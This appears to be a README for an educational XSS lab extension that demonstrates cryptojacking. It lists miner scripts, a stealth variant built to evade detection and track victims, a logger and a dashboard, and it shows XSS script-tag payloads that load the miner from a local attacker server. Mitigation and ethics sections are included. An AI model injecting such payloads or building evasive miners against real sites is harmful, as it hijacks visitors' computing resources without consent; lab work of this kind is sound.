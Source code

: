 # XSS Lab: Cryptojacking Extension

This extension adds cryptojacking capabilities to the XSS vulnerability lab. It demonstrates how Cross-Site Scripting (XSS) vulnerabilities can be exploited to run cryptocurrency mining scripts in victims' browsers.

## Overview

Cryptojacking is a type of attack where malicious actors inject cryptocurrency mining scripts into websites to use visitors' CPU resources to mine cryptocurrency without their knowledge or consent. This lab demonstrates this attack vector in a controlled environment for educational purposes.

## Components Added

1. **Cryptocurrency Miner Script** (`attacker-server/src/miner.js`):
   - Simulates cryptocurrency mining operations
   - Consumes CPU resources to demonstrate impact
   - Reports mining statistics back to the attacker server
   - Displays a visual indicator of mining activity

2. **Stealth Miner Script** (`attacker-server/src/stealth_miner.js`):
   - More advanced version that tries to evade detection
   - Adjusts mining intensity based on system conditions
   - Uses obfuscation techniques to hide its purpose
   - Throttles mining when the page is visible to avoid detection
   - Generates unique identifiers for tracking victims
   - Pauses when DevTools is open to avoid detection

3. **Mining Statistics Logger** (`attacker-server/src/log_mining.php`):
   - Receives and logs mining statistics from compromised browsers
   - Stores data for later analysis by the attacker
   - Sanitizes incoming data to prevent log injection

4. **Mining Dashboard** (`attacker-server/src/mining_logs.php`):
   - Displays collected mining statistics in an organized dashboard
   - Shows active miners, hash rates, and total hashes mined
   - Tracks unique victims and their mining contributions
   - Provides detailed mining activity logs with timestamps
   - Calculates mining efficiency and session statistics

5. **Sample Attack Payloads** (`attack-others/cryptojacking-payload.txt`):
   - Various XSS payloads to inject the mining scripts
   - Includes basic, hidden, stealth, disguised, and obfuscated variants
   - Features payloads with delayed execution and visibility-based triggers
   - Demonstrates combined attacks (cookie theft + cryptojacking)

## How to Use

### Setting Up the Lab

1. Start the lab environment:
   ```
   docker-compose up -d
   ```

2. Access the vulnerable application at `http://localhost:8080`

### Performing the Attack

1. Register an account or log in to an existing account
2. Post a comment containing one of the XSS payloads from `attack-others/cryptojacking-payload.txt`, such as:
   ```html
   <script src="http://localhost:8081/miner.js"></script>
   ```
   or for a stealthier approach:
   ```html
   <script src="http://localhost:8081/stealth_miner.js"></script>
   ```
3. Log out and log in as a different user
4. View the comments page to see the mining script in action

### Monitoring the Attack

1. Access the mining statistics dashboard at `http://localhost:8081/mining_logs.php`
2. Observe the collected mining data, including:
   - Total hashes mined
   - Number of active miners
   - Hash rates from different victims
   - User agent information

## Educational Value

This extension demonstrates:

1. **Real-world Impact of XSS**: Shows how XSS vulnerabilities can lead to resource theft
2. **Client-side Security Risks**: Illustrates the dangers of executing untrusted JavaScript
3. **Detection Evasion Techniques**: Demonstrates how attackers try to hide malicious activity
4. **Performance Impact**: Shows the tangible effects of cryptojacking on system performance

## Mitigation Strategies

To prevent cryptojacking attacks:

1. **Input Validation**: Sanitize all user input before displaying it
2. **Content Security Policy (CSP)**: Implement strict CSP headers to control script execution
3. **Output Encoding**: Use proper context-aware encoding for dynamic content
4. **Regular Updates**: Keep all software components updated with security patches
5. **Client-side Protection**: Use browser extensions that block cryptomining scripts

## Ethical Considerations

This lab is for educational purposes only. In real-world scenarios:

- Always obtain proper authorization before security testing
- Never deploy cryptojacking scripts on production systems
- Respect users' resources and privacy
- Follow responsible disclosure practices when finding vulnerabilities

## Documentation

For more detailed information about the cryptojacking vulnerability, see the `CRYPTOJACKING.md` file in the project root. 